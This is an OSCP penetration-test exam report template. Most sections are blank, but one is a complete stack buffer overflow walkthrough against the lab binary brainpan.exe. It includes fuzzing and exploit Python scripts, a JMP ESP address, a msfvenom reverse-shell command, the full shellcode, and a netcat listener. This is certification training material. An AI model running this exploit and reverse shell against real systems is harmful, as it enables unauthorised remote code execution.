# Offensive Security OSCP Exam Report

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report fully and to include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable
- Any additional items that were not included

# High-Level Summary

I was tasked with performing an internal penetration test towards Offensive Security Exam.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal exam systems - the THINC.local domain.
My overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, I was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, I had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- 192.168.xx.xx (hostname) - Name of initial exploit
- 192.168.xx.xx (hostname) - Name of initial exploit
- 192.168.xx.xx (hostname) - Name of initial exploit
- 192.168.xx.xx (hostname) - Name of initial exploit
- 192.168.xx.xx (hostname) - BOF

## Recommendations

I recommend patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Exam environments is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

- 192.168.
- 192.168.
- 192.168.
- 192.168.
- 192.168.

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to **X** out of the **X** systems.

### System IP: 192.168.x.x

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

| Server IP Address | Ports Open                                | Service/Banner |
| ----------------- | ----------------------------------------- | -------------- |
| 192.168.x.x       | **TCP**: 1433,3389<br />**UDP**: 1434,161 |                |

**Nmap Scan Results:**

*Initial Shell Vulnerability Exploited*

*Additional info about where the initial shell was acquired from*

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Proof of Concept Code:**

**Local.txt Proof Screenshot**

**Local.txt Contents**

#### Privilege Escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

**Proof Screenshot:**

**Proof.txt Contents:**

### System IP: 192.168.x.x

#### Service Enumeration

| Server IP Address | Ports Open                                | Service/Banner |
| ----------------- | ----------------------------------------- | -------------- |
| 192.168.x.x       | **TCP**: 1433,3389<br />**UDP**: 1434,161 |                |

**Nmap Scan Results:**

*Initial Shell Vulnerability Exploited*

*Additional info about where the initial shell was acquired from*

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Proof of Concept Code:**

**Local.txt Proof Screenshot**

**Local.txt Contents**

#### Privilege Escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

**Proof Screenshot:**

**Proof.txt Contents:**

### System IP: 192.168.x.x

#### Service Enumeration

| Server IP Address | Ports Open                                | Service/Banner |
| ----------------- | ----------------------------------------- | -------------- |
| 192.168.x.x       | **TCP**: 1433,3389<br />**UDP**: 1434,161 |                |

**Nmap Scan Results:**

*Initial Shell Vulnerability Exploited*

*Additional info about where the initial shell was acquired from*

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Proof of Concept Code:**

**Local.txt Proof Screenshot**

**Local.txt Contents**

#### Privilege Escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

**Proof Screenshot:**

**Proof.txt Contents:**

### System IP: 192.168.x.x

#### Service Enumeration

| Server IP Address | Ports Open                                | Service/Banner |
| ----------------- | ----------------------------------------- | -------------- |
| 192.168.x.x       | **TCP**: 1433,3389<br />**UDP**: 1434,161 |                |

**Nmap Scan Results:**

*Initial Shell Vulnerability Exploited*

*Additional info about where the initial shell was acquired from*

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Proof of Concept Code:**

**Local.txt Proof Screenshot**

**Local.txt Contents**

#### Privilege Escalation

*Additional Priv Esc info*

**Vulnerability Exploited:**

**Vulnerability Explanation:**

**Vulnerability Fix:**

**Severity:**

**Exploit Code:**

**Proof Screenshot:**

**Proof.txt Contents:**

### System IP: 10.10.225.26

**Vulnerability Exploited:** Buffer Overflow

**Vulnerability Explanation:**

#### Configuration

The first thing is to connect to the debug machine via RDP. I used this command to connect to it :

```md
rdesktop 192.168.1.143
```

From here, I see Immunity Debugger and the buffer overflow executable. First, I started Immunity Debugger, then I opened the vulnerable executable with :

```md
File -> Open -> brainpan.exe
```

Then I set my working directory for mona, which is a python extension that I used for Buffer Overflow discovery.

```md
!mona config -set workingfolder c:\mona\%p
```

After that the program is run in Immunity Debugger, but I still need to "Run" it, for that I press "f9" which is the default key to run the program.



#### Fuzzing

Now let's start fuzzing, for that I need the IP address where the program is launched and the port on which it is listening. I already have both :

- IP : 192.168.1.143
- PORT : 9999

I used a python script that I called "fuzzer.py", I just replaced the two variables **ip** and **port** by the one above. Please see Appendix 2 for the complete fuzzing code. I then run the python script as follow :

```md
python fuzzer.py
```

Here is the result of the command :



And here is the result in Immunity Debugger, as we can see the application crash after receiving 600 bytes of data and EIP was overwrite by "41414141" (AAAA) as shown in red below.



#### Crash replication & controlling EIP

First restart the application, because it crashed. Every time, I'll say that I restart the program here the key that I press :

- Restart : Ctrl + f2
- Run : f9

Now I need to find the exact offset where the crash occurred. For that I used a cyclic pattern generated by mona with the following command:

```md
!mona pc 750
```


Then I went to :

```md
C:\mona\brainpan\pattern.txt
```

Opened the "txt" file and copy the entire "ASCII" part which must be 750 characters.

Cyclic pattern :

```md
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad
0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0A
g1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1
Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am
2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2A
p3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3
As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av
4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4A
y5Ay6Ay7Ay8Ay9
```

From now on, I'll use another python script, called "exploit.py", please see Appendix 3 for the complete exploit code. Replace the two variables **ip** and **port** by the one used in "fuzzer.py" and modify the **payload** variable by the cyclic pattern.



Run the script "exploit.py" with the following command :

```md
python exploit.py
```

Here is the result of the command :


And here is the result in Immunity Debugger, as we can see the application crash after receiving our payload.



Now let's find the exact offset of the crash with the following mona command :

```md
!mona findmsp -distance 750
```



I now have the exact offset of the crash which is 524. Just to be sure that I control EIP, I'll try to overwrite it with "42424242" (BBBB).

Modify the following variables in "exploit.py" :

- The **offset** variable by 524 ;
- The **retn** variable by "BBBB" ;
- Remove the content of the **payload** variable ;



Restart and run the program in Immunity Debugger and launch exploit.py :

```md
python exploit.py
```

As we can see below EIP is equal to 42424242 (BBBB), so I can fully control EIP value.



#### Finding bad characters

Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters  cause issues. By default, the null byte (\\x00) is always considered a bad character as it will truncate shellcode when executed.

I'll send bad characters recursively and analyze if they need to be  removed. Let generate the list of bad characters with mona :

```md
!mona bytearray -b "\x00"
```


Then go to :

```md
C:\mona\brainpan\bytearray.txt
```

Opened the "txt" file and copy the entire list of bad characters.

Bad characters :

```md
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17
\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37
\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57
\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77
\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97
\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7
\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7
\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7
\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

Paste the list of bad characters in the **payload** variable :


Restart and run the program in Immunity Debugger and launch exploit.py :

```md
python exploit.py
```

The application should crash, you need to take note of the ESP address as it will be useful for the next command.


Now to find those bad characters use this command :

```md
!mona compare -f C:\mona\brainpan\bytearray.bin -a 005FF910
```



The results status returns “Unmodified”, this indicates that no more bad characters exist. So there only is one bad character which is bad :

```md
\x00
```

#### Finding a jump point

I need to identify the "JMP ESP" that will be responsible for changing the natural flow of the application and making it run the shellcode that we will insert into the stack. To find a "JMP ESP", I used the following command :

```md
!mona jmp -r esp -cpb "\x00"
```


Let's take note of the "JMP ESP" in the red rectangle : 0x311712f3, we need to convert this address to little-endian format to use it in our code. Just invert the bytes to perform this conversion :

```md
0x311712f3 <-> "\xf3\x12\x17\x31"
```

#### Generate payload & prepend NOPs

We can now generate our shellcode excluding the characters found :

```md
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.87 LPORT=80 EXITFUNC=thread -b "\x00" -f c
```

LHOST and LPORT are equal to the IP address and port where the reverse shell will connect back.

The command generated the following :

```md
"\xdb\xd0\xbb\xac\x66\x48\xa0\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
"\x52\x31\x5e\x17\x03\x5e\x17\x83\x42\x9a\xaa\x55\x66\x8b\xa9"
"\x96\x96\x4c\xce\x1f\x73\x7d\xce\x44\xf0\x2e\xfe\x0f\x54\xc3"
"\x75\x5d\x4c\x50\xfb\x4a\x63\xd1\xb6\xac\x4a\xe2\xeb\x8d\xcd"
"\x60\xf6\xc1\x2d\x58\x39\x14\x2c\x9d\x24\xd5\x7c\x76\x22\x48"
"\x90\xf3\x7e\x51\x1b\x4f\x6e\xd1\xf8\x18\x91\xf0\xaf\x13\xc8"
"\xd2\x4e\xf7\x60\x5b\x48\x14\x4c\x15\xe3\xee\x3a\xa4\x25\x3f"
"\xc2\x0b\x08\x8f\x31\x55\x4d\x28\xaa\x20\xa7\x4a\x57\x33\x7c"
"\x30\x83\xb6\x66\x92\x40\x60\x42\x22\x84\xf7\x01\x28\x61\x73"
"\x4d\x2d\x74\x50\xe6\x49\xfd\x57\x28\xd8\x45\x7c\xec\x80\x1e"
"\x1d\xb5\x6c\xf0\x22\xa5\xce\xad\x86\xae\xe3\xba\xba\xed\x6b"
"\x0e\xf7\x0d\x6c\x18\x80\x7e\x5e\x87\x3a\xe8\xd2\x40\xe5\xef"
"\x15\x7b\x51\x7f\xe8\x84\xa2\x56\x2f\xd0\xf2\xc0\x86\x59\x99"
"\x10\x26\x8c\x0e\x40\x88\x7f\xef\x30\x68\xd0\x87\x5a\x67\x0f"
"\xb7\x65\xad\x38\x52\x9c\x26\x87\x0b\x9f\xe1\x6f\x4e\x9f\x0d"
"\x20\xc7\x79\x67\xd0\x81\xd2\x10\x49\x88\xa8\x81\x96\x06\xd5"
"\x82\x1d\xa5\x2a\x4c\xd6\xc0\x38\x39\x16\x9f\x62\xec\x29\x35"
"\x0a\x72\xbb\xd2\xca\xfd\xa0\x4c\x9d\xaa\x17\x85\x4b\x47\x01"
"\x3f\x69\x9a\xd7\x78\x29\x41\x24\x86\xb0\x04\x10\xac\xa2\xd0"
"\x99\xe8\x96\x8c\xcf\xa6\x40\x6b\xa6\x08\x3a\x25\x15\xc3\xaa"
"\xb0\x55\xd4\xac\xbc\xb3\xa2\x50\x0c\x6a\xf3\x6f\xa1\xfa\xf3"
"\x08\xdf\x9a\xfc\xc3\x5b\xba\x1e\xc1\x91\x53\x87\x80\x1b\x3e"
"\x38\x7f\x5f\x47\xbb\x75\x20\xbc\xa3\xfc\x25\xf8\x63\xed\x57"
"\x91\x01\x11\xcb\x92\x03"
```

Now we need to add the "JMP ESP", the shellcode and the padding to exploit.py :

- Modify the **retn** variable by : "JMP ESP" address
- Modify the **payload** variable by : the shellcode
- Modify the **padding** variable by : "\\x90" * 16

Which gives me the following in exploit.py :



The padding is called a NOP-sled, a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \\x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.

#### Start a listener

I start a listener on port 80 :

```md
sudo nc -lvp 80
```

#### Final exploit

Restart and run the program in Immunity Debugger and launch exploit.py :

```md
python exploit.py
```


I have the reverse shell back ! Now it's time to exploit the real vulnerable machine.

#### Final exploit on real machine

Now that I confirm that I can have a reverse shell on the debugging Windows machine, it's time to go for the real one.

Just change the variable **ip** of "exploit.py", by the one from the vulnerable machine, then re-launch exploit.py

```md
ip = "192.168.1.143"
```

Launch the listener :

```md
sudo nc -lvp 80
```

Launch exploit.py :

```md
python exploit.py
```

**Completed Buffer Overflow Code:**

Please see Appendix 2 for the Completed Fuzzer Buffer Overflow and Appendix 3 for the Completed Exploit Buffer Overflow Code.

**Proof Screenshot:**



**Proof.txt Contents:**

```md
f4842dcb685d490e2a43212b8072a6fe
```

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the exam network was completed, Alec removed all user accounts and passwords as well as the Meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items

## Appendix - Proof and Local Contents:

| IP (Hostname) | Local.txt Contents | Proof.txt Contents               |
| ------------- | ------------------ | -------------------------------- |
| 192.168.x.x   | hash_here          | hash_here                        |
| 192.168.x.x   | hash_here          | hash_here                        |
| 192.168.x.x   | hash_here          | hash_here                        |
| 192.168.x.x   | hash_here          | hash_here                        |
| 10.10.225.26  | /                  | f4842dcb685d490e2a43212b8072a6fe |

## Appendix 1 - Metasploit/Meterpreter Usage

For the exam, I used my Metasploit/Meterpreter allowance on the following machine: `192.168.x.x`

## Appendix 2 - Completed Fuzzer Buffer Overflow Code

```python
import socket, time, sys

ip = "192.168.1.143"
port = 9999
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

## Appendix 3 - Completed Exploit Buffer Overflow Code

```python
import socket

ip = "192.168.1.143"
port = 9999

prefix = ""
offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
payload = "\xdb\xd0\xbb\xac\x66\x48\xa0\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
payload += "\x52\x31\x5e\x17\x03\x5e\x17\x83\x42\x9a\xaa\x55\x66\x8b\xa9"
payload += "\x96\x96\x4c\xce\x1f\x73\x7d\xce\x44\xf0\x2e\xfe\x0f\x54\xc3"
payload += "\x75\x5d\x4c\x50\xfb\x4a\x63\xd1\xb6\xac\x4a\xe2\xeb\x8d\xcd"
payload += "\x60\xf6\xc1\x2d\x58\x39\x14\x2c\x9d\x24\xd5\x7c\x76\x22\x48"
payload += "\x90\xf3\x7e\x51\x1b\x4f\x6e\xd1\xf8\x18\x91\xf0\xaf\x13\xc8"
payload += "\xd2\x4e\xf7\x60\x5b\x48\x14\x4c\x15\xe3\xee\x3a\xa4\x25\x3f"
payload += "\xc2\x0b\x08\x8f\x31\x55\x4d\x28\xaa\x20\xa7\x4a\x57\x33\x7c"
payload += "\x30\x83\xb6\x66\x92\x40\x60\x42\x22\x84\xf7\x01\x28\x61\x73"
payload += "\x4d\x2d\x74\x50\xe6\x49\xfd\x57\x28\xd8\x45\x7c\xec\x80\x1e"
payload += "\x1d\xb5\x6c\xf0\x22\xa5\xce\xad\x86\xae\xe3\xba\xba\xed\x6b"
payload += "\x0e\xf7\x0d\x6c\x18\x80\x7e\x5e\x87\x3a\xe8\xd2\x40\xe5\xef"
payload += "\x15\x7b\x51\x7f\xe8\x84\xa2\x56\x2f\xd0\xf2\xc0\x86\x59\x99"
payload += "\x10\x26\x8c\x0e\x40\x88\x7f\xef\x30\x68\xd0\x87\x5a\x67\x0f"
payload += "\xb7\x65\xad\x38\x52\x9c\x26\x87\x0b\x9f\xe1\x6f\x4e\x9f\x0d"
payload += "\x20\xc7\x79\x67\xd0\x81\xd2\x10\x49\x88\xa8\x81\x96\x06\xd5"
payload += "\x82\x1d\xa5\x2a\x4c\xd6\xc0\x38\x39\x16\x9f\x62\xec\x29\x35"
payload += "\x0a\x72\xbb\xd2\xca\xfd\xa0\x4c\x9d\xaa\x17\x85\x4b\x47\x01"
payload += "\x3f\x69\x9a\xd7\x78\x29\x41\x24\x86\xb0\x04\x10\xac\xa2\xd0"
payload += "\x99\xe8\x96\x8c\xcf\xa6\x40\x6b\xa6\x08\x3a\x25\x15\xc3\xaa"
payload += "\xb0\x55\xd4\xac\xbc\xb3\xa2\x50\x0c\x6a\xf3\x6f\xa1\xfa\xf3"
payload += "\x08\xdf\x9a\xfc\xc3\x5b\xba\x1e\xc1\x91\x53\x87\x80\x1b\x3e"
payload += "\x38\x7f\x5f\x47\xbb\x75\x20\xbc\xa3\xfc\x25\xf8\x63\xed\x57"
payload += "\x91\x01\x11\xcb\x92\x03"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
